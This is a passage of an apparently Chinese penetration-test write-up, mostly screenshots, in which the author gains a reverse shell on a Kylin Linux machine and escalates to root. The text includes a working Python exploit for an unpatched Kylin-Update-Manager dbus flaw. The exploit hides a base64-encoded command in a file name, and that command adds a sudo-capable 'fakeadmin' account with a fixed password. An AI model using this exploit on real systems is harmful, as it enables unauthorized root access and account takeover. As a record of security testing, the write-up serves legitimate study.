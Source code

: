 ![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/ffbe0951-8208-41ca-949e-45eb917fe24b.png?raw=true)

2、抓取请求，注入命令，反弹 Shell。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/478fdc34-eb64-4683-9afb-2e9bb978b8ae.png?raw=true)

3、尝试执行自定义脚本，未果，推测有拦截。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/79b43b40-5732-4a4f-85ae-89e213e7cf5c.png?raw=true)

4、则尝试用 dbus 提权，审计 Kylin-Update-Manager 的源码，可以发现这个漏洞https://www.cnvd.org.cn/flaw/show/CNVD-2022-78421 还没修。

则 spawn 一个终端出来。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/69d3065a-792e-4918-9f8d-600f88c4d748.png?raw=true)

python3 执行下面的脚本。

```
from pathlib import Pathimport dbusimport base64from pathlib import Pathcommand = "adduser fakeadmin && adduser fakeadmin sudo && echo 'fakeadmin:Bb123***'|chpasswd"command_base64 = base64.b64encode(command.encode()).decode()path = '/tmp/`echo ' + command_base64 + '|base64 -d|sh`'Path(path).touch()bus = dbus.SystemBus()remote_object = bus.get_object("cn.kylinos.KylinUpdateManager", "/cn/kylinos/KylinUpdateManager")remote_object.install_snap(path, dbus_interface="cn.kylinos.KylinUpdateManager")print("Command executed!")
```

直接全部粘进去让它执行。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/4f10a557-a316-488b-96f9-dd652f2e8ee8.png?raw=true)

5、接下来就可以 su fakeadmin, 然后就可以用 Bb123*** 这个密码登录，然后就可以sudo su 提权到root。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/b3d32a38-7a7a-4bc3-8dd3-c6100d328590.png?raw=true)

然后就可以修改 glzjin 的密码了。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/74214e10-5e3e-40b6-b047-2a12d0d4f127.png?raw=true)

6、然后接下来切换到 glzjin 用户，启动 vncserver。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/6a004815-340b-412c-82cb-b5295e941552.png?raw=true)

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/db4dc35d-f443-4dad-943c-3db9a26f9eff.png?raw=true)

7、然后开启文件保险箱，初始化失败。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/d58c0ff1-95c5-482f-9e6a-ff403bc505ac.png?raw=true)

8、需要想办法把vncserver的父进程id挂到当前系统登录的session里，可以用快捷方式+开机启动项操作。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/c1d2fe53-2092-4195-baf4-cda576fe4a71.png?raw=true)

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/fb83bb17-4744-47b8-9661-e7d07f1c3aea.png?raw=true)
